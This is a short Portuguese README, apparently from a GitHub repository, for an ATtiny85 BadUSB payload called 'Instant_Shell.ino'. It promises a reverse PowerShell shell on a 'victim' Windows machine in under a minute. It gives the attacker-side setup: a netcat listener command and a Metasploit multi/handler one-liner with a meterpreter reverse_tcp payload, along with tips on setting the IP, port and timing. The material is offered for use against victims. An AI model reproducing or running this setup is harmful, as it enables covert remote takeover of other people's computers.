 # Instant Shell

### Descrição:

#### 1: Instant_Shell.ino:<br>

**Payload por:** [hum4nG0D](https://github.com/hum4nG0D/)

Obtenha um shell PowerShell interativo reverso em menos de um minuto e envie comandos remotamente para a máquina da vítima. Script interativo de shell PowerShell reverso por [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)

**Instruções:**
Inicie um listener nc ou um listener metasploit. Certifique-se de alterar o IP e a porta. Ajuste o atraso do script conforme o necessário para o seu computador.

```
nc -lvnp 4444
```

```
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP_ADDRESS>; set lport 4444; set ExitOnSession false; exploit -j"
```

**Testado em:**<br>
**Sistema Operacional**: Windows 10|11<br>
**Usuário**: Administrador/Usuário Normal<br>
**Hardware**: ATtiny85
